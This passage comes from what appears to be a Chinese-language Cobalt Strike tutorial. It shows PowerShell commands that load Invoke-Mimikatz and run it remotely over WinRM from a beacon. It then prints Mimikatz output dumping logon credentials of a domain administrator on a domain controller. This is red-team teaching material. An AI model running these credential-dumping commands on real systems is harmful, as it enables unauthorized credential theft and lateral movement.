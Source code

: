 最后再运行以下命令就能通过 WinRM 执行 Mimikatz 了。

```powershell
powershell Invoke-Mimikatz -ComputerName TARGET
```

如果提示`无法将“Invoke-Mimikatz”项识别为 cmdlet、函数……`，则可以将两条命令以分号合并在一起运行，即：

```
powershell import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName TARGET
```

```powershell
beacon> powershell import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName WinDC
[*] Tasked beacon to run: import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName WinDC
[+] host called home, sent: 287 bytes
[+] received output:

  .#####.   mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 20 modules * * */

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 314628 (00000000:0004cd04)
Session           : Interactive from 1
User Name         : administrator
Domain            : TEAMSSIX
Logon Server      : WinDC
Logon Time        : 2020/8/20 23:53:08
SID               : S-1-5-22-3301978333-983314215-684642015-500
	msv :	
	 [00000003] Primary
	 * Username : Administrator
……内容过多，余下部分省略……
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs16-1.png)

终于把碰到的坑都填完了，睡觉……

## 4、获取信任

如果当前账号权限被系统认为是本地管理员权限，那么就可以执行很多管理员才能做的事，接下来就来看一下这样的一个过程是如何工作的，其中会涉及到以下要点：

1、`Access Token` 登录令牌

2、`Credentials` 凭证

 3、`Password Hashes` 密码哈希

4、`Kerberos Tickets` 登录凭据

